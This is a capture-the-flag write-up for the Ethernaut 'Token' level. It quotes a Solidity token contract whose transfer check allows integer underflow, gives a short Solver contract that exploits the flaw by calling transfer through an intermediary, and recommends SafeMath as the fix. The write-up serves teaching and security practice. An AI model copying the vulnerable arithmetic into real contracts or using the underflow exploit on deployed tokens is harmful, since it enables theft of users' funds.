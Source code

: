 ![Token](/assets/img/BigLevel5.svg)

- [Challenge](#challenge)
- [Solution](#solution)
- [Remediation](#remediation)
- [References](#references)
   
# Challenge

The level says:

> The goal of this level is for you to hack the basic token contract below.
> 
> You are given 20 tokens to start with and you will beat the level if you somehow manage to get your hands on any additional tokens. Preferably a very large amount of tokens.
>
>  Things that might help:
>
>  - What is an odometer?

And give the following contract's code:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {

  mapping(address => uint) balances;
  uint public totalSupply;

  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```

# Solution



```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "hardhat/console.sol";
import "./Token.sol";

contract Solver {
    Token token;

    constructor(address tokenAddress) public {
        token = Token(tokenAddress);
    }

    function solve(uint _value) public {
        token.transfer(tx.origin, _value);
    }
}

```



![Well done](/assets/img/ethernaut_solved.png)

# Remediation

When performing arithmetic operations in solidity. Always use libraries like OpenZeppelin's [SafeMath](https://docs.openzeppelin.com/contracts/2.x/api/math) which wraps the arithmetic operations with overflow checks.

# References

- [SWC-101](https://swcregistry.io/docs/SWC-101)
